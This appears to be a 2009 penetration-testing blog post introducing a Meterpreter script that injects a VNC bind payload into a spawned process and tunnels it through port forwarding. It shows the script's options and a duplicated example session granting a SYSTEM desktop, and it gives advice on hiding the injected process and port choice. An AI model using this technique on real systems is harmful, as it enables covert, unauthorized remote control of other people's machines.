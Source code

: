 = Meterpreter tunneling and VNC revamped
:hp-tags: metasploit, meterpreter, vnc

So yesterday (December 14th, 2009) [HD Moore](http://twitter.com/hdmoore) posted [a tweet](http://twitter.com/hdmoore/status/6663737357) with a pic of the new VNC meterpreter script that he wrote:

![](/images/postimages/200912_vnc_1.png)

Looking at the script I noticed that it created a new connection (two connections outbound). Well it was the perfect excuse to take the newly refurbished portfwd command for a spin.

[https://github.com/mubix/stuff/blob/master/metasploit/vnc_oneport.rb](https://github.com/mubix/stuff/blob/master/metasploit/vnc_oneport.rb)

Or you can get it via the SVN at [Revision 7872](https://metasploit.com/redmine/projects/framework/repository/revisions/7872)

By creating a bind payload instead of a reverse connect we can have the payload listen locally. Then with portfwd command (just like on your home router) we forward a local port to the local host on the remote side, to the binded port. Connecting to the freshly bound port as if we were actually doing everything on the box itself. Creating a new session and a nice beautiful VNC window.

## Options:

```
meterpreter > run vnc_oneport -h

OPTIONS:  
-e <opt> The process to run and inject into (default: notepad.exe)  
-h  This help menu  
-l <opt> The local port to listen on via port forwarding (default: 5901)  
-p <opt> The port on the remote host to bind VNC to (default: randomized)

meterpreter >
```

## Example Run:

```
[*] Meterpreter session 1 opened (192.168.92.103:4444 -> 192.168.92.113:1038)

meterpreter > **_run vnc_oneport_**
[*] Creating a VNC stager: RHOST=127.0.0.1 LPORT=1207
[*] Host process notepad.exe has PID 532
[*] Allocated memory at address 0x00640000
[*] Writing the VNC stager into memory...
[*] Running Payload
[*] Creating a new thread within notepad.exe to run the VNC stager...
[*] Starting the port forwarding from 5901 => TARGET:1207
[*] Local TCP relay created: 0.0.0.0:5901 <-> 127.0.0.1:1207

meterpreter > [*] VNC Server session 2 opened (127.0.0.1:56893 -> 127.0.0.1:5901)
Connected to RFB server, using protocol version 3.3
No authentication needed
Desktop name "VNCShell [SYSTEM@WORKSTATION1] - Full Access"
VNC server default format:
32 bits per pixel.
Least significant byte first in each pixel.
	True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
	Using default colormap which is TrueColor.  Pixel format:
	32 bits per pixel.
Least significant byte first in each pixel.
	True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
	Using shared memory PutImage
Same machine: preferring raw encoding
ShmCleanup called
[*] VNC Server session 2 closed.
meterpreter >
[*] Meterpreter session 1 opened (192.168.92.103:4444 -> 192.168.92.113:1038)  
meterpreter > run vnc_oneport  
[*] Creating a VNC stager: RHOST=127.0.0.1 LPORT=1207  
[*] Host process notepad.exe has PID 532  
[*] Allocated memory at address 0x00640000  
[*] Writing the VNC stager into memory...  
[*] Running Payload  
[*] Creating a new thread within notepad.exe to run the VNC stager...  
[*] Starting the port forwarding from 5901 => TARGET:1207  
[*] Local TCP relay created: 0.0.0.0:5901 <-> 127.0.0.1:1207  
meterpreter > [*] VNC Server session 2 opened (127.0.0.1:56893 -> 127.0.0.1:5901)  
Connected to RFB server, using protocol version 3.3  
No authentication needed  
Desktop name "VNCShell [SYSTEM@WORKSTATION1] - Full Access"VNC server default format: 32 bits per pixel. Least significant byte first in each pixel. True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0  
Using default colormap which is TrueColor.  Pixel format: 32 bits per pixel. Least significant byte first in each pixel. True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0  
Using shared memory PutImageSame machine: preferring raw encodingShmCleanup called  
[*] VNC Server session 2 closed.

meterpreter >
``` 

## Note:

The forwarded port does not close even if the meterpreter session is ended, so use the following command to close the forward:

```
meterpreter > portfwd delete -l 5901  
[*] Successfully stopped TCP relay on 0.0.0.0:5901
meterpreter >

(Note to BT4 users: do a `apt-get install vncviewer` before using any of the vnc payloads in Metasploit)

The script utilizes just one of the millions of way you can leverage 'portfwd' in your endeavors. But where it gets interesting is the fact that the delivery method for the payload never touches disk. That magic is all credited to HD though. What happens is a new process is created (notepad by default) and the newly created VNC bind payload is injected into it. But, the beauty is that it's doing local connections via the port forwarding so all you see in TCPView is:

![](/images/postimages/200912_vnc_2.png)

Now it's definitely suspicious that Notepad has any connections at all, but you can use the option `-e` to provide any executable you wish, as long as it's in the path for the system. For examples, look at what's running naturally already.

Plus, you would probably not be using port 4444 for a meterpreter session. But what I wanted to demonstrate with this script is the power of both meterpreter, and port forwarding.

Now it's your turn to make it better. Take a look at the guts, see if anything will help you in your scripting.